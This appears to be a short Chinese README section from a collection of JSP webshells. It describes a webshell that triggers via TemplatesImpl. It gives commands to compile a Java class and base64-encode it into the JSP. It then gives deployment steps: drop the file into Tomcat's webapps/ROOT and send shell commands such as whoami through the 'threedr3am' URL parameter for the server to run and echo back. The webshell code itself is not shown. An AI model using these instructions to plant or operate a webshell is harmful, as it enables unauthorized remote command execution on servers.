 ### 利用TemplatesImpl触发的JSP Webshell

编译字节码:
```
javac Threedr3am_11.java

cat Threedr3am_11.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问11.jsp，并使用参数threedr3am传入需要远程执行的命令，例：http://127.0.0.1:8080/11.jsp?threedr3am=whoami

3.服务器将会执行相应的shell命令，最后回显
```